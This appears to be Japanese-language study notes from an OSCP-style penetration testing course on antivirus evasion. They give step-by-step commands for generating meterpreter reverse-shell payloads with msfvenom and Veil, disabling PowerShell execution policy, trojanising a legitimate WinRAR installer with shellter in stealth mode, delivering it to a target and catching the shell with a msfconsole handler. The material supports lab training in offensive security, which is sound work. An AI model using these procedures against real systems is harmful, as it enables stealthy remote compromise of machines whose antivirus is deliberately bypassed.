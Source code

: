 # AntivirusEvasion

ファイル名を変更するだけでも効果がある場合がある





### PowerShell In-Memory Injection

powershellスクリプトを記述する。AVで検知される。kaliの以下に格納した。

```bash
┌──(kali㉿kali)-[~/Documents/tools/powershell]
└─$ ls im-memory.ps1
```

![image-20230105133939946](img/AntivirusEvasion/image-20230105133939946.png)

msfvenomでリバースシェルを作成しps1を更新する。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kali LPORT=4444 -f powershell
```

攻撃対象ホストで同様にファイルを作成する。（例: av_test.ps1)

実行する前にExcecutionポリシーを無効化する。

```
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```



### shellter

* インストール

  ```
  apt-cache search shellter
  sudo apt install shellter
  ```

  ```
  sudo su -
  dpkg --add-architecture i386 && apt-get update &&
  apt-get install wine32:i386
  ```

  ```
  mkdir -p ~/myapp/prefix
  export WINEPREFIX=$HOME/myapp/prefix
  export WINEARCH=win32
  export WINEPATH=$HOME/myapp
  wineboot --init
  shellter
  ```

* Aを選択する

  ![image-20230105143437763](img/AntivirusEvasion/image-20230105143437763.png)

* 変更するPEをダウンロードして指定する。

  https://www.rarlab.com/download.htm

  ![image-20230105143533845](img/AntivirusEvasion/image-20230105143533845.png)

  ![Figure 8: Selecting a target PE in shellter and performing a backup](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/antivirus_evasion/7c49cd2d7e2afd9639c73a1de9b7765a-antivirus_evasion_06.png)

* ステルスモードを有効にする

  ![image-20230105143650976](img/AntivirusEvasion/image-20230105143650976.png)

* ペイロードを選択する

  ![image-20230105143706409](img/AntivirusEvasion/image-20230105143706409.png)

* exeが出来上がるので攻撃対象に配送して、リバースシェルを待ち受けする。

* msfconsoleの場合

  ```
  msfconsole
  msf > use exploit/multi/handler
  msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set LHOST 192.168.119.144
  msf exploit(multi/handler) > show options
  msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
  ```

  ※migrateすることでPEのプロセスが終了してシェルを継続可能とする。



### Veil(.batでEvasionファイルを作成可能)

* ダウンロード

```
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
./config/setup.sh --force --silent
```

* 実行

※~/Documents/tools配下にVeilをダウンロードして実行可能な状態になっている

```
┌──(kali㉿kali)-[~/Documents/tools/Veil]
└─$ ./Veil.py 
Veil>: use Evasion
Veil/Evasion>: use powershell/meterpreter/rev_tcp.py 
[powershell/meterpreter/rev_tcp>>]: set LHOST 192.168.119.144
[powershell/meterpreter/rev_tcp>>]: generate
```

* payloadは自動で.batファイルで作成された。batファイルを移動する

```
mv /var/lib/veil/output/source/17-3-5-6.bat ~/Documents/OSCP/17.AntivirusEvasion/ 
```

* 攻撃対象ホストに転送する

```
割愛
```

* msfconsoleのハンドラーで待ち受け

  ```bash
  msfconsole
  msf > use exploit/multi/handler
  msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set LHOST 192.168.119.144
  msf exploit(multi/handler) > show options
  msf exploit(multi/handler) > exploit
  ```

  